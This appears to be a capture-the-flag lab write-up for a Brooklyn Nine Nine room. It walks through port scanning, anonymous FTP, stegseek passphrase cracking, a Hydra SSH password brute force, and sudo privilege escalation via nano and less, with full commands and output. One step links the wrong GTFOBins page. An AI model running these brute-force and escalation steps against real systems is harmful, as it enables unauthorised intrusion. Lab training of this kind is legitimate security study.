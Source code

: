 # Brooklyn Nine Nine

This is an easy room with 2 equally fun paths to exploit. Steganography or Brute-forcing, Holt or Peralta. Then use GTFO bins to get the root.

## 1. Scanning & Enumeration
### 1.1. Port Scanning
```
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.17.8.184
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Anonymous login shows us an interesting file: `note_to_jake.txt`.

Also running a full port scan, we get no additional information.
```
Not shown: 65532 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

### 1.2 Web Exploration
![Brooklyn Nine Nine Homepage image](https://i.imgur.com/6XcDCc8.jpg)

In the sourcecode, we see the following line: `<!-- Have you ever heard of steganography? -->`.

### 1.3 FTP 
So one thing we found was Anonymous login in FTP. Let's get the interesting file.
```
┌──(kali㉿kali)-[/tmp]
└─$ ftp 10.10.150.90
Connected to 10.10.150.90.
220 (vsFTPd 3.0.3)
Name (10.10.150.90:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        114          4096 May 17  2020 .
drwxr-xr-x    2 0        114          4096 May 17  2020 ..
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
226 Transfer complete.
119 bytes received in 0.00 secs (391.2826 kB/s)
ftp> 
221 Goodbye.
```

Given that we have no other special pages, or any other ports - we have one option to bruteforce SSH.
```
┌──(kali㉿kali)-[/tmp]
└─$ cat note_to_jake.txt 
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```
This is another pathway we can take.

### 1.4 Steganography
Let's get the image: `http://10.10.150.90/brooklyn99.jpg`.

Using steghide, to get the hidden file in the image - 
```
┌──(kali㉿kali)-[/tmp]
└─$ steghide --extract --stegofile brooklyn99.jpg 
Enter passphrase: 
steghide: can not uncompress data. compressed data is corrupted.
```

Okay. Let's get [StegSeek](https://github.com/RickdeJager/stegseek). It goes through the entire rockyou.txt in 2 seconds :)

Download the `.deb` file if you are on a debian based system, and install as shown below.

```
┌──(kali㉿kali)-[~/Downloads]
└─$ sudo dpkg --install stegseek_0.6-1.deb 
Selecting previously unselected package stegseek.
(Reading database ... 305959 files and directories currently installed.)
Preparing to unpack stegseek_0.6-1.deb ...
Unpacking stegseek (0.6-1) ...
Setting up stegseek (0.6-1) ...
```

Time to get in!

## 2. Foothold (Holt Path)
```
┌──(kali㉿kali)-[/tmp]
└─$ stegseek brooklyn99.jpg
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "*****"
[i] Original filename: "note.txt".
[i] Extracting to "brooklyn99.jpg.out".
```

Voila! We get the passphrase, and the output file.

```
┌──(kali㉿kali)-[/tmp]
└─$ cat brooklyn99.jpg.out 
Holts Password:
{password}

Enjoy!!
```

Logging in,

```
┌──(kali㉿kali)-[/tmp]
└─$ ssh holt@10.10.150.90  
The authenticity of host '10.10.150.90 (10.10.150.90)' can't be established.
ECDSA key fingerprint is SHA256:Ofp49Dp4VBPb3v/vGM9jYfTRiwpg2v28x1uGhvoJ7K4.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.150.90' (ECDSA) to the list of known hosts.
holt@10.10.150.90's password: 
Last login: Tue May 26 08:59:00 2020 from 10.10.10.18
holt@brookly_nine_nine:~$ 
```

We are in!

## 3. PrivEsc (Holt Path)
Time to get the root. One very very good starting point is checking sudo permissions.
```
holt@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
```


Use [GTFO bins](https://gtfobins.github.io/gtfobins/nano/#sudo). Too easy!

## 4. Foothold (Jake Path)
Let's also explore the other path hinted in the room. As I mentioned above, we can bruteforce SSH using Hydra.
```
┌──(kali㉿kali)-[/tmp]
└─$ hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://10.10.150.90 -t 4   
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-05-30 23:30:06
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://10.10.150.90:22/
[STATUS] 44.00 tries/min, 44 tries in 00:01h, 14344355 to do in 5433:29h, 4 active
[22][ssh] host: 10.10.150.90   login: jake   password: {password}
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-05-30 23:32:45
```

Logging in,

```
┌──(kali㉿kali)-[~]
└─$ ssh jake@10.10.150.90
jake@10.10.150.90's password: 
Last login: Mon May 31 03:59:08 2021 from 10.17.8.184
jake@brookly_nine_nine:~$ ls
```

We do not have any flag here. What we need is root permissions, so that we have it all.

## 5. PrivEsc (Jake Path)
```
jake@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
jake@brookly_nine_nine:~$ /usr/bin/less /root/root.txt
jake@brookly_nine_nine:~$ 
```

Use [GTFO bins](https://gtfobins.github.io/gtfobins/nano/#sudo).

System FULLY Compromised!
